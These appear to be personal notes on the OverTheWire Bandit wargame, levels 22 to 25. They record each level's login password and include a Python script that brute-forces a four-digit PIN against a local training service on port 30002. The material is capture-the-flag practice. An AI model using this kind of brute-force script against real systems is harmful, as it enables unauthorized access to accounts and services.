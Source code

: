 ## Level 22

username: bandit22
password:tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

![[Pasted image 20250107125547.png]]

## Level 23

username : bandit23
pasword :0Zf11ioIjMVN551jX3CmStKLYqjk54Ga


![[Pasted image 20250107154526.png]]


## Level 24

username: bandit24
password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

	import socket

	BANDIT24_PASSWORD = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
	HOST = "localhost"  # Change to the target IP if remote
	PORT = 30002
	
	def brute_force():
	    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
	        s.connect((HOST, PORT))
	
	        for pincode in range(10000):  # 0000 to 9999
	            formatted_pincode = f"{pincode:04}"  # Always 4 digits
	            message = f"{BANDIT24_PASSWORD} {formatted_pincode}\n"
	            s.sendall(message.encode())
	
	            response = s.recv(1024).decode()
	            print(f"Trying {formatted_pincode}: {response}")
	
	            if "Correct" in response:  # Adjust based on expected success message
	                print(f"Found correct pincode: {formatted_pincode}")
	                break
	
	if __name__ == "__main__":
	    brute_force()


![[Pasted image 20250107171013.png]]


![[Pasted image 20250107171211.png]]

## Level 25
